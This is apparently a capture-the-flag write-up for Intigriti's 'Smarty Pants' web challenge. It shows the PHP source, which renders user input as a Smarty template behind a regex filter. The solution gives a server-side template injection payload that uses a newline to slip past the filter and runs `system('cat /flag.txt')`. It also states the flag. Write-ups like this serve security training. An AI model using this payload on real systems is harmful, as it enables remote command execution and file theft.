 # Smarty Pants [99 Solves]

## Description

> Since you're so smart then you should have no problem with this one 🤓
>
> Author: Protag
>
> <https://smartypants.ctf.intigriti.io> || <https://smartypants2.ctf.intigriti.io>
>
> Attachments: smarty.tar.gz

<details><summary>Attachment file tree</summary>

```console
$ tar zxvf smarty.tar.gz
docker-compose.yml
Dockerfile
flag.txt
index.php
index.tpl
start.sh
README.md
```

</details>

<details><summary>index.php</summary>

```php
<?php
if(isset($_GET['source'])){
    highlight_file(__FILE__);
    die();
}

require('/var/www/vendor/smarty/smarty/libs/Smarty.class.php');
$smarty = new Smarty();
$smarty->setTemplateDir('/tmp/smarty/templates');
$smarty->setCompileDir('/tmp/smarty/templates_c');
$smarty->setCacheDir('/tmp/smarty/cache');
$smarty->setConfigDir('/tmp/smarty/configs');

$pattern = '/(\b)(on\S+)(\s*)=|javascript|<(|\/|[^\/>][^>]+|\/[^>][^>]+)>|({+.*}+)/';

if(!isset($_POST['data'])){
    $smarty->assign('pattern', $pattern);
    $smarty->display('index.tpl');
    exit();
}

// returns true if data is malicious
function check_data($data){
    global $pattern;
    return preg_match($pattern,$data);
}

if(check_data($_POST['data'])){
    $smarty->assign('pattern', $pattern);
    $smarty->assign('error', 'Malicious Inputs Detected');
    $smarty->display('index.tpl');
    exit();
}

$tmpfname = tempnam("/tmp/smarty/templates", "FOO");
$handle = fopen($tmpfname, "w");
fwrite($handle, $_POST['data']);
fclose($handle);
$just_file = end(explode('/',$tmpfname));
$smarty->display($just_file);
unlink($tmpfname);
```

</details>

## Flag

INTIGRITI{php_4nd_1ts_many_f00tgun5}

## Solution

This challenge uses [Smarty](https://github.com/smarty-php/smarty), a PHP Template Engine.
The Web application has the functionality of the user input and shows it by calling `$smarty->display($just_file);`.
The user-controllable value is restricted with `'/(\b)(on\S+)(\s*)=|javascript|<(|\/|[^\/>][^>]+|\/[^>][^>]+)>|({+.*}+)/';` regulation expression.
For example, `{system('id')}` cannot be input.

But fortunately, we can bypass this by using newline.
The following payload can be input.

```php
{system('cat /flag.txt')
}
```

Got the flag.

## References

- [PayloadsAllTheThings Smarty](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#smarty)
